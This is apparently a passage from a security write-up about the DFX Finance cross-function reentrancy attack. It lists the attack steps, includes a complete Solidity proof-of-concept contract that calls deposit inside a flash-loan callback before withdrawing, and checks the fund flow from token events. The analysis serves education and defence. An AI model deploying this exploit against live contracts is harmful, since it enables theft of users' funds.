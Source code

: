   As a result, the attacker invoked `deposit` in the callback function, bypassed the validation in the flash loan and left the record for deposit. After all these operations, attacker withdrew tokens.

  In summary, the whole attack flow is:

  1. Prepare some `USDC` and `XIDR` tokens in advance.
  2. Using `viewDeposit()` to get the number of assets for later `deposit()`.
  3. Flash `USDC` and `XIDR` tokens based on the return value in step 2.
  4. Invoke `deposit()` function in the flash loan callback .
  5. Since we have a deposit record in the previous step, now withdraw tokens.


  The full PoC implementation：  

  ```solidity
  contract EXP {
      uint256 amount;
      function testExploit() public{
        uint[] memory XIDR_USDC = new uint[](2);
        XIDR_USDC[0] = 0;
        XIDR_USDC[1] = 0;
        ( , XIDR_USDC) = dfx.viewDeposit(200_000 * 1e18);
        dfx.flash(address(this), XIDR_USDC[0] * 995 / 1000, XIDR_USDC[1] * 995 / 1000, new bytes(1)); // 5% fee
        dfx.withdraw(amount, block.timestamp + 60);
    }

      function flashCallback(uint256 fee0, uint256 fee1, bytes calldata data) external{
        (amount, ) = dfx.deposit(200_000 * 1e18, block.timestamp + 60);
    }
  }
  ```

  More detailed codebase can be found in the DefiHackLabs repo： [DFX_exp.sol](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/DFX_exp.sol)

- Verify Fund Flow  

  Now, we can verify the asset stream graph with token events during the transaction.

  ![image](https://user-images.githubusercontent.com/53768199/215331469-e1edd9b4-5147-4f82-9e38-64edce3cc91f.png)


  At the end of the `deposit` function, `dfx-xidr-v2` tokens were minted to the exploiter. 

  ![image](https://user-images.githubusercontent.com/53768199/215331545-9730e5b0-564d-45d8-b169-3b7c8651962f.png)

  In the `flash` function, the transfer event shows the fee collection(`USDC` and `XIDR`) for the DFX multi-sig wallet.

  ![image](https://user-images.githubusercontent.com/53768199/215331819-d80a1775-4056-4ddd-9083-6f5241d07213.png)

  The `withdraw` function burned `dfx-xidr-v2` tokens that were minted in the previous steps.

- Summary

  DFX Finance reentrancy attack is a typical cross-function reentrancy attack, where the attacker completes the reentrancy by calling the `deposit` function in the flash loan callback function. 


[^1]: Skim() :
[^2]: Internal function calls are invisible to the blockchain since they don't create any new transactions or blocks. In this way, they cannot be read by other smart contracts or show up in the blockchain transaction history.